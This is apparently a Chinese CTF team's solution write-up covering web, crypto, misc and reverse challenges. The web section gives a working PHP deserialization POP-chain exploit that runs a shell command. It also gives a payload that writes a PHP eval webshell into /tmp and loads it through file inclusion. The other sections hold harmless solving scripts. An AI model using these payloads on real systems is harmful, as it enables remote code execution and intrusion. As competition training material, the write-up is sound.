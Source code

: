 # 姓名-解题思路

**请注意**

1. 解题过程中，关键步骤不可省略，不可含糊其辞、一笔带过。

2. 解题过程中如是自己编写的脚本，不可省略，不可截图（代码字体可以调小；而如果代码太长，则贴关键代码函数）。

3. 所有解出的题目都必须书写WRITEUP，缺少一个则视该WRITEUP无效，成绩将无效。

4. WRITEUP如过于简略和敷衍，导致无法形成逻辑链条推断出对题目有分析和解决的能力，该WRITEUP可能被视为无效，成绩将无效。

5. 提交PDF版本即可。

6. 必须包含获得flag截图。

7. 每只队伍由队长统一提交一份解题思路即可，所有解题过程需保存在一个pdf内上传。

8. 平台仅保留队伍最后一份解题思路，此前提交的解题思路将会自动覆盖。

   

## 1. 团队信息

团队名称：She11ud0

队员组成：万晟，吴灵舒，石嘉馨

排名：35



## 2. 解题情况

![](images/解题情况.png)



## web

### 题目一：easy php

EXP

```php
<?php
highlight_file(__FILE__);
class AAA{
    public $cmd;

    public function __call($name, $arguments){
        eval($this->cmd);
        return "done";
    }
}

class BBB{
    public $param1;

    public function __debuginfo(){
        return [
            'debugInfo' => 'param1' . $this->param1
        ];
    }
}

class CCC{
    public $func;

    public function __toString(){
        var_dump("aaa");
        $this->func->aaa();
    }
}

if(isset($_GET['aaa'])){
    $aaa = $_GET['aaa'];
    var_dump(unserialize($aaa));
}
$b = new BBB();
$a = new AAA();
$c = new CCC();
$a->cmd = "system('cat /flag');";
$c->func = $a;
$b->param1 = $c;

echo urlencode(serialize($b));
?>
```

整体的调用思路是 `__debuginfo` 到 `__toString` 到 `__call`

所以简单来说构造 POP 链即可

![flagweb1](images/flagweb1.png)



### 题目三：can you read flag

可以命令执行了，但是很明显是有黑名单的

![flagweb1](images/phpinfo.png)

但是很多地方都被ban了，比如 system 之类的，所以这里想到文件写入一句话木马，随后进行文件包含。尝试之后发现 `/tmp` 目录下有权限，其他都没有

```payload
?a=fwrite(fopen('/tmp/1.php'),'a'),'<?php eval($_REQUEST[5]); ?>)'
```

写入了一句话木马，用文件包含去访问

![flagweb1](images/shell.png)

是可以连上马的，但是发现并没有权限 get flag

找到了在 `/tmp/src/readflag.c` 中发现有获取到 flag 的条件，也就是要输入多次 y，算是爆破，发现环境上面是有 perl 环境的，没有 python 环境，所以简单写一个运行多次的脚本接口

```perl
use strict;
use IPC::Open3;

my $pid = open3( \*CHLD_IN, \*CHLD_OUT, \*CHLD_ERR, '/readflag' ) or die "open3() failed!";

my $r;
print CHLD_IN "y";
$r = <CHLD_OUT>;
$r = <CHLD_OUT>;
$r = <CHLD_OUT>;

for my $i(1..301){
    $r = substr($r,0,-5);
    $r = eval "$r";
    print CHLD_IN "$r\n";
    $r = <CHLD_OUT>;
    print "$r";
}
```

![flagweb1](images/flagweb3.png)





## CRYPTO

### 题目一：小小数学家

简单搓脚本即可，要将最后的 `=?` 去掉

```python
with open('flag.txt','r') as f:
    for i in range(44):
        a = f.readline()
        print(chr(int(eval(a))), end='')
```



## misc

### 题目一：number game

删除 if 的判断，再放到浏览器里面跑即可

![flagweb1](images/deleteIF.png)

得到 flag

![flagweb1](images/misc1flag.png)





## Reverse

### 题目一：pyccc

拿到pyc文件反编译一下得到py文件

![](images/re1.png)

```python
a = input('please input your flag:\n')
check = [
    102,
    109,
    99,
    100,
    127,
    52,
    114,
    88,
    97,
    122,
    85,
    125,
    105,
    127,
    119,
    80,
    120,
    112,
    98,
    39,
    109,
    52,
    55,
    106]
if len(a) == 24:
    for i in range(len(a)):
        if check[i] == ord(a[i]) ^ i:
            continue
            print(yes)
        
        print('nononono')
    continue
else:
    print('nononono')
```

根据文件信息得知是异或，需要和前面的数组中的信息异或后输入，根据异或可逆性直接再异或一下就行

exp：

```python
check = [102,109,99,100,127,52,114,88,97,122,85,125,105,127,119,80,120,112,98,39,109,52,55,106]

flag=''

for i in range(len(check)):
    flag +=chr(check[i]^i)

print(flag)
```

![](images/re1_result.png)